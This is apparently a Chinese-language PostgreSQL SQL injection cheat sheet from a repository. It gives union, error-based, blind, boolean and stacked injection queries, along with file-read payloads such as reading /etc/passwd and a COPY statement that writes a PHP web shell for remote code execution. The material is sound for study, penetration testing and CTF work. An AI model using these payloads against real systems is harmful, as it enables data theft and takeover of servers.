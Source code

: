 # PostgreSQL

## 安装

https://www.runoob.com/postgresql/windows-install-postgresql.html



## 介绍

PostgreSQL是一种特性非常齐全的自由软件的对象-关系型数据库管理系统（ORDBMS）。

默认端口是5432，默认用户名和数据库都是`postgres`。

## 环境

简单弄个数据表：

![image-20220318091519737](README.assets/image-20220318091519737.png)

## 语法上的一些差别

感觉postgresql对于类型上的限制更大一下，注入前语句最好都本地测试一下。

## 常见的查询命令

```sql
select CURRENT_SCHEMA()           #查看当前权限
#一般是public，用户默认情况下具有public权限，public默认具有创建和使用schema的权限，因此意味着可以在schema中创建对象（包括表）、列出schema中的对象，并在其权限允许时访问它们。



select user                       #查看用户
#默认是postgres


select current_user               #查看当前用户
select chr(97)                    #将ASCII码转为字符
select chr(97)||chr(100)||chr(109)||chr(105)||chr(110)  #将ASCII转换为字符串


SELECT session_user;


SELECT usename FROM pg_user;
SELECT getpgusername();
select version()                  #查看PostgreSQL数据库版本
SELECT current_database()         #查看当前数据库
select length('admin')            #查看长度
 
select case when(expr1) then result1 else result2 end;  #如果xx，执行result1，否则result2
例：select case when(current_user='postgres') then pg_sleep(5) else pg_sleep(0) end;
 
select pg_read_file("/etc/passwd");          #读取文件
select system("whoami");                     #执行系统命令,11.2以下才有该命令
COPY (select '<?php phpinfo();?>') to '/tmp/1.php';   #写入文件
```



## 联合查询

```sql
select * from users where id = 1 order by 3
select * from users where id = -1 union select 1,'2','3'--这是注释
```

获取模式名称schemaname：

```sql
select * from users where id = -1 UNION SELECT NULL,schemaname,NULL FROM pg_tables--
```

获取数据表：

```sql
select * from users where id = -1 UNION SELECT NULL,tablename,NULL FROM pg_tables where schemaname in ('public')
```

获取列名：

```sql
select * from users where id = -1 UNION SELECT NULL,attname,NULL FROM pg_namespace,pg_type,pg_attribute b JOIN pg_class a ON a.oid=b.attrelid WHERE a.relnamespace=pg_namespace.oid AND pg_type.oid=b.atttypid AND attnum>0 AND a.relname='users' AND nspname='public'
```

获取内容：

```sql
select * from users where id = -1 UNION SELECT null,null,password from users
```



当然有比较简单的查询办法，因为`postgresql`中也是有`information`表的。

```sql
select * from users where id = -1 UNION select null,null, 'table_name' from information_schema.columns where table_schema='public' and table_name<>'pg_stat_statements';

select * from users where id = -1 UNION select null,null, column_name from information_schema.columns where table_schema='public' and table_name<>'pg_stat_statements' and table_name = 'users' limit 1 offset 1;
```



## 报错注入

```sql
select * from users where id = 1 AND 1=CAST((SELECT version())::text AS NUMERIC)
--错误:  无效的类型 numeric 输入语法: "PostgreSQL 14.2, compiled by Visual C++ build 1914, 64-bit"

```



## 时间盲注

postgresql中延时函数是`pg_sleep`。

```sql
select * from users where id = -1 or 1=(select 123 from PG_SLEEP(5))

```

## 堆叠注入

和`mysql`一样用分号。

## 布尔注入

```sql
select * from users where id = -1 union select 1,(select case when 1=2 then 'a' else 'b' end),'3' --
```

postgresql中没有`if`，用的是`case when xxx then xxx else xxx end`。

## 文件操作

列目录函数`pg_ls_dir`：

```sql
select * from users where id = -1 union select null,null,pg_ls_dir('./')
```



写文件（一般用于rce）：

```sql
CREATE TABLE hacktb (t TEXT);

INSERT INTO hacktb(t) VALUES ('<?php @system("$_GET[cmd]");?>');

COPY hacktb(t) TO 'D:\1.txt';
```



读文件：

```sql
DROP table hacktb;
CREATE TABLE hacktb (t TEXT);
COPY hacktb from 'D:\flag';
select * from hacktb
```



实际上文件操作别的系列函数比如`pg_logdir_ls()、pg_ls_dir()、pg_file_rename()、pg_file_write()、 pg_read_file()、pg_length_file()`等，但是这些都会收到权限和目录的限制，根据实际情况测试使用。